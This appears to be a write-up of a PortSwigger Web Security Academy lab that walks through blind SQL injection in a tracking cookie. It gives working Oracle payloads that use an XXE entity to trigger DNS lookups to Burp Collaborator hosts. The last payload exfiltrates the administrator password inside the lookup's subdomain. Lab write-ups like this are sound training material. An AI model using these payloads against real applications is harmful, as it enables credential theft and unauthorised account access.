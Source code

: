 # Blind SQL injection with out-of-band data exfiltration | Mar 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration), you'll learn: Blind SQL injection with out-of-band data exfiltration! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301125654.png)

**Cookies:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301125711.png)

When we go to `/`, it'll set a new cookie called `TrackingId`.

This looks like a tracking cookie for analytics.

The SQL query may looks like this:

```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '<our_cookie_value>'
```

**That being said, we can try to perform SQL injection.**

**To do so, I'll try to trigger an SQL query error:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301125753.png)

However, it seems like we don't recieve any response when we modified the tracking cookie.

Maybe carries out the SQL query **asynchronously**?

The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

### Dectecting blind SQL injection with DNS lookup

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup payloads:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301125818.png)

Since we don't know which DBMS (Database Management System) is using, we need to try them all one by one.

**First, go to Burp Suite's Collaborator and click "Copy to clipboard":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301125842.png)

**Then, we'll try Oracle XXE vulnerability to trigger a DNS lookup:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual
```

**Payload:**
```sql
UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://wcc9qdxnn2kmj8qlqoe2s0vic9i06quf.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

**The SQL query may become:**
```sql
SELECT TrackingId FROM tracking WHERE TrackingId = 'UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--'
```

Let's send the payload!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130156.png)

> Note: The payload needs to be URL encoded.

**Burp Suite's Collaborator:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130205.png)

We've recieved 4 DNS lookups! Which means the `TrackingId` cookie is vulnerable to out-of-band SQL injection!

### Data exfiltration via blind SQL injection with DNS lookup

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application.

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup with data exfiltration payloads:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130326.png)

**Since we found the DBMS is Oracle, we can use Oracle's payload:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Then, in the lab background, there's a table called `users`, with columns called `username` and `password`.

**To exfiltrate `administrator` user's password, we can use the following payload:**
```sql
UtpAUCPaD1W1twLc' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mxnzb3id8s5c4ybbbezsdqg8xz3qrhf6.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

This input reads the password for the `administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130722.png)

**Burp Suite's Collaborator:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130736.png)

Nice! We successfully exfiltrated `administrator`'s password!

**Let's login as `administrator`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130826.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301130831.png)

I'm user `administrator`!

# What we've learned:

1. Blind SQL injection with out-of-band interaction